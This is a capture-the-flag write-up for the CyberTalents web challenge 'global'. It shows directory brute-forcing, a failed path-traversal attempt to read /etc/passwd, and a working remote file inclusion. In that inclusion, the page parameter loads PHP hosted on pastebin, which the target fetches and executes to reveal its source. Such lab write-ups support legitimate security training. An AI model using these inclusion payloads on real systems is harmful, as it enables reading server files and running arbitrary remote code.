




# Solve global
#### https://cybertalents.com/challenges/web/global


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*
Nothing found 

### Try to find valid pages 
`http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com/global/?page=index.php`


### Test LFI 
`http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com/global/?page=../../../etc/passwd`
Doesn't work 

### Try RFI
`http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com/global/?page=https://github.com/medhathassan`


It works !!

Upload this code with pastebin to view source code 

```php
<?php
show_source("./index.php");

?>
```

`http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com/global/?page=https://pastebin.com/raw/uhKp3Exk`



>Find More on ==> github.com/MedhatHassan 
